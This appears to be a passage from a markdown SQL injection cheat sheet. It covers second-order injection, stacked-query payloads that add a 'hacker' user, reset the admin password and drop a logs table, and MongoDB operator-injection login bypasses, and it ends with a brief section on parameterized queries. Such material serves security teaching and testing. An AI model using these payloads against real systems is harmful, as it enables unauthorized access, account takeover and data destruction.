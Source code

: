 
## Second-Order SQL Injection

### Concept
Second-order injections occur when:
1. Malicious input is stored in database
2. Later retrieved and used in another SQL query
3. No sanitization on retrieval/usage

### Example Payload Storage
```sql
-- Register user with malicious username
Username: admin'-- -
Password: anything

-- Later, when profile is updated:
UPDATE users SET email='new@email.com' WHERE username='admin'-- -'
-- Results in: UPDATE users SET email='new@email.com' WHERE username='admin'
```

---

## Advanced Techniques

### Stacked Queries
```sql
-- Multiple statements (when supported)
admin'; INSERT INTO users VALUES ('hacker','password')-- -
admin'; UPDATE users SET password='hacked' WHERE username='admin'-- -
admin'; DROP TABLE logs-- -
```

### NoSQL Injection (for comparison)
```javascript
// MongoDB injection examples
{"username": {"$ne": null}, "password": {"$ne": null}}
{"username": {"$regex": ".*"}, "password": {"$regex": ".*"}}
{"username": "admin", "password": {"$gt": ""}}
```

---

## Prevention and Detection

### Secure Coding Practices
```sql
-- BAD: String concatenation
query = "SELECT * FROM users WHERE username='" + username + "'"

-- GOOD: Parameterized queries
query = "SELECT * FROM users WHERE username=?"
statement.setString(1, username)
```
